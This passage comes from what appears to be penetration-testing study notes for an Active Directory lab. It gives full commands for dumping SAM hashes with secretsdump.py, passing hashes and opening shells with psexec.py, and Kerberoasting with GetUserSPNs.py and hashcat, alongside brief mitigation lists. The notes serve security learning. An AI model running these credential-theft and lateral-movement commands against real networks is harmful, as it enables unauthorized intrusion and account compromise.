   ```shell
  #crackmapexec database

  secretsdump.py marvel/fcastle:Password1@192.168.57.141
  secretsdump.py administrator:@192.168.57.141 --hashes NTLM_hash
  #silent alternative to hashdump in meterpreter
  #dumps SAM hashes

  #the NTLM hashes can be cracked using Hashcat
  #if we cannot crack hashes, we can pass the hashes (only NTLM, not NTLMv2)
  ```
  ![](../images/passthehash.png)
  - Keep in mind: 
    - NTLMv1 hashes can be passed around, NTLMv2 hashes can be only relayed
    - sprayed = pass

- To gain access and shell with passwords and hashes found:

  ```
  psexec.py marvel/fcastle:Password1@192.168.57.142
  #use creds from crackmapexec to gain access to other machine

  psexec.py "Frank Castle":@192.168.57.141 -hashes <complete NTLM hash>
  #alt pass the hash method
  ```

  * Mitigations:

    * Limit account reuse

    * Disable Guest and Administrator accounts

    * Use strong passwords

    * Privilege Access Management (PAM)

* Kerberoasting:

  * Goal of [Kerberoasting](https://medium.com/@Shorty420/kerberoasting-9108477279cc) is to get TGS (Ticket Granting Service) and decrypt the server's account hash.

  ```shell
  sudo GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 192.168.57.140 -request
  #needs username, password from domain account and its ip
  #this provides us the hash, can be cracked using hashcat

  hashcat -m 13100 hash.txt rockyou.txt
  #cracks the hash
  ```

  * Mitigations:
